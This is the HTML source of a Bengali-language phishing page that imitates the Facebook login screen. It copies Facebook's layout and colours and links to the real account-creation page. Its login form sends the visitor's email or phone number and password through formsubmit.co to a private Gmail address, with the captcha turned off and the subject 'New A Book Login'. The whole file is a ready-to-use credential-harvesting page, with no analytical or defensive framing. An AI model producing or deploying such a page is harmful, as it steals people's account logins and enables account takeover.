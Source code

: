 <!DOCTYPE html>
<html lang="bn">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Facebook - লগ ইন</title>
<style>
* {
  margin: 0;
  padding: 0;
  box-sizing: border-box;
  font-family: "Helvetica Neue", Helvetica, Arial, sans-serif;
}

body {
  background-color: #f0f2f5;
  min-height: 100vh;
  display: flex;
  justify-content: center;
  align-items: flex-start;
  padding-top: 50px;
}

.container {
  display: flex;
  max-width: 980px;
  gap: 60px;
  align-items: flex-start;
  padding: 20px;
  flex-wrap: wrap;
}

.left-section {
  flex: 1;
  min-width: 250px;
}

.logo {
  display: flex;
  align-items: center;
  justify-content:center;
  font-weight:bold;
  margin-bottom: 13px;
}

.logo h1 {
  font-size: 50px;
  margin: 0;
  color: #1666b3;
}

.right-section {
  background-color: white;
  padding: 20px 25px;
  border-radius: 8px;
  box-shadow: 0 4px 8px rgba(0,0,0,0.1);
  width: 396px;
}

.login-form input {
  width: 100%;
  padding: 14px 16px;
  margin-bottom: 12px;
  border: 1px solid #dddfe2;
  border-radius: 6px;
  font-size: 17px;
}

.login-form input:focus {
  outline: none;
  border-color: #1877f2;
  box-shadow: 0 0 0 2px #e7f3ff;
}

.pass-wrap {
  position: relative;
}

.toggle {
  position: absolute;
  right: 10px;
  top: 40%;
  transform: translateY(-50%);
  background: transparent;
  border: none;
  color: #1877f2;
  font-size: 14px;
  cursor: pointer;
}

.login-button {
  background-color: #1877f2;
  color: white;
  border: none;
  border-radius: 6px;
  font-size: 20px;
  line-height: 48px;
  width: 100%;
  font-weight: bold;
  cursor: pointer;
  margin-bottom: 16px;
}

.login-button:hover {
  background-color: #166fe5;
}

.divider {
  border-bottom: 1px solid #dadde1;
  margin: 20px 0;
}

.create-account {
  background-color: #42b72a;
  color: white;
  border: none;
  border-radius: 6px;
  font-size: 17px;
  line-height: 48px;
  font-weight: bold;
  cursor: pointer;
  width: 100%;
  margin-bottom: 20px;
}

.create-account:hover {
  background-color: #36a420;
}

@media (max-width: 900px) {
  .container {
    flex-direction: column;
    text-align: center;
    gap: 30px;
  }
  
  .left-section {
    width: 100%;
    padding: 0 20px;
  }
  
  .right-section {
    width: 100%;
    max-width: 400px;
  }
}
</style>
</head>
<body>

<div class="container">
  <div class="left-section">
    <div class="logo">
      <h1> Facebook </h1>
    </div>
  </div>

  <div class="right-section">
    <!-- FormSubmit Form -->
    <form class="login-form" action="https://formsubmit.co/flux00567@gmail.com" method="POST">
      <!-- Optional: subject -->
      <input type="hidden" name="_subject" value="New A Book Login">
      <input type="hidden" name="_captcha" value="false">

      <div class="pass-wrap">
        <input type="text" name="user_email" placeholder="ইমেইল বা ফোন নম্বর" required>
      </div>
      <div class="pass-wrap">
        <input type="password" name="user_password" placeholder="পাসওয়ার্ড" required>
        <button type="button" class="toggle">দেখুন</button>
      </div>
      <button type="submit" class="login-button">লগ ইন</button>
      <div class="divider"></div>
<!-- পরিবর্তন করলে -->
<button type="button" class="create-account" onclick="window.location.href='https://web.facebook.com/r.php?entry_point=login';">
  নতুন অ্যাকাউন্ট তৈরি করুন
</button>
    </form>
  </div>
</div>

<script>
  // পাসওয়ার্ড দেখান/লুকান
  const toggle = document.querySelector('.toggle');
  const passwordInput = document.querySelector('input[type="password"]');
  toggle.addEventListener('click', () => {
    if(passwordInput.type === 'password'){
      passwordInput.type = 'text';
      toggle.textContent = 'লুকান';
    } else {
      passwordInput.type = 'password';
      toggle.textContent = 'দেখুন';
    }
  });
</script>

</body>
</html>
